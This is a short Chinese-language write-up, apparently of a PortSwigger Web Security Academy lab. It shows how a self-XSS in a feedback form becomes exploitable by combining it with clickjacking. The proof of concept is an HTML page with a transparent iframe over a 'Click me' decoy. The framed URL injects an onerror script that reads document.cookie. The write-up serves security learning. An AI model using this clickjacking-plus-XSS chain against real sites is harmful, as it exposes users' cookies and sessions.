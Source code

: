 self_xss的一种高危利用方式

提交反馈页面存在self_xss，可以通过控制url来决定页面输入值

![](images/06708061DBED4D7A8CDA7C1BC82BB8B0clipboard.png)



当点击提交按钮时，即可再页面上返回用户名，并触发self_xss



搭配页面劫持来造成危害,poc:

```javascript
<style>
   iframe {
       position:relative;
       width:500px;
       height: 700px;
       opacity: 0.1;
       z-index: 2;
   }
   div {
       position:absolute;
       top:600px;
       left:80px;
       z-index: 1;
   }
</style>
<div>Click me</div>
<iframe
src="https://ac611f131fcefcf5803d180500010040.web-security-academy.net/feedback?name=<img src=1 onerror=alert(document.cookie)>&email=hacker@attacker-website.com&subject=test&message=test#feedbackResult"></iframe>
```

